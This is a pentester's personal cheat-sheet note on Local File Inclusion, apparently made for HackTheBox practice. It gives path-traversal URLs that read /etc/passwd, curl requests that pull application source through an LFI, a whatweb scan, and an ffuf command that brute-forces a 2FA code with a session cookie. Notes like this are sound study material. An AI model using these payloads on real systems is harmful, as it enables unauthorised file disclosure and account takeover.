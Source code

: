 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[LFI]]  
___

## Description:  
### Local File Inclusion


`http://192.168.1.70/index.php?system=../../../../../../../../../../../../../../../../../etc/passwd
if that doesn't work try adding an allowed extension:
`http://192.168.1.70/index.php?system=../../../../../../../../../../../../../../../../../etc/passwd.html
Or try different syntax like:
`GET /download?file=....//....//...//....//....//etc/bind/named.conf`

seclist has lists of lfi's that can be used.

### whatweb can identify web severs and get common directories
https://github.com/urbanadventurer/WhatWeb
```

./whatweb http://only4you.htb/

Lightbox, Script, Title[Only4you], nginx[1.18.0]
```

### Common webserver directories

- `C:\inetpub\wwwroot`
- `/var/www/ (before Ubuntu 14.04)` 
- `/var/www/html/ (Ubuntu 14.04 and later)`
- ``/usr/share/nginx/html (nginx)`` 
- ``/usr/share/nginx``
- `/etc/nginx/sites-available/default`

### Fuff Automation

Once an lfi is discovered, fluff can be used for automation. Look for different extensions in the web root directory like .py, .php, etc.
```
ffuf -w number.txt -X POST -d "password=FUZZ" -b "TCSESSIONID=74BCFD74A212BEC7DF8533FAD3E6FA50" -request ../request.txt -u https://teamcity-dev.coder.htb/2fa.html -fr "Incorrect" -c
```

You can also use gobuster with the -x flag to enumerate different file extensions.

### Look for import statements in source code

```
root@kali:~# curl -X POST http://beta.only4you.htb/download -d "image=/var/www/only4you.htb/app.py"
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid
```

"from form import sendmessage" means there is a file called form.py
```
root@kali:~# curl -X POST http://beta.only4you.htb/download -d  image=/var/www/only4you.htb/form.py
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:32 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
